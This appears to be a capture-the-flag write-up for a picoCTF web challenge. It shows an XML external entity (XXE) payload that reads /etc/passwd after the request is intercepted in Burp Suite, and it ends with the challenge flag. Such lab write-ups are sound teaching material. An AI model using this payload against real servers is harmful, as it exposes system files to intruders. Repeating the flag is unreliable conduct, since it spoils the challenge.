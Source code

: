# Overview 
Category: [Web Exploitation]()

AUTHOR: GEOFFREY NJOGU

# Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

# Solution
- I use Burp Suite to catch the request : 
<img src="https://i.imgur.com/8Hze7T2.png">
- XML external entity Injection (XXE):
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
```
- Can read the /etc/passwd file :
<img src="https://i.imgur.com/xbLytEC.png">
>Flag : **picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}**
